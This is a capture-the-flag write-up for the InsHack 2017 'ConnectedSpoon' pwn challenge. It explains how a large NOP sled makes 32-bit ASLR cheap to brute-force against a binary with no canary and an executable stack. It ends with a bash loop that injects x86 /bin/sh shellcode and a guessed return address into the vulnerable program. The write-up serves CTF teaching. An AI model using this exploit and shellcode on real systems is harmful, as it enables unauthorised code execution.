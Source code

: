```yaml
---
title: "ConnectedSpoon | InsHack 2017"
categories: ["pwn"]
tags: ["stack overflow", "shellcode", "ASLR"]
points: 150
solves: 42
---
```


Who knew bruteforcing ASLR on 32 bit was so easy!

## Checksec
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled       (<- we CAN use shellcode)
PIE:      No PIE
ASLR:     ENABLED           (<- we CANNOT reliably know where the stack is)
```

## Solution
This is very similar to crazy-minitel, so I will assume you have read that [writeup](CrazyMinitel), and just focus on what's new: `ASLR`! One other change from crazy-minitel is that we have a larger buffer, meaning we can have a bigger nop sled.

With that in mind, lets just bruteforce ASLR. From running the program in gdb what I found that:
 - The first byte `\xbf` never changed. So that's **8 bits** we don't need to guess.
 - We have a NOP SLED of around 2000 bytes, and, since `2^11 = 2048`, we can get another free **11 bits**.

This leaves use with `32-8-11 = 13bits` to bruteforce. This would mean on average around **8192 attempts** to guess correctly the stack value, which would certainly be doable, but I got a shell after only ~75 trys, which means either my math is wrong or I was just very lucky.

I launched this little script to bruteforce the ASLR, went to eat something, and when I got back I had a shell waiting for me. :)
```bash
while :
do
    ~/vuln $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'.rjust(1950, '\x90') + 'A'*(2012-1950) + '\xb0\xba\xad\xbf'")
done
```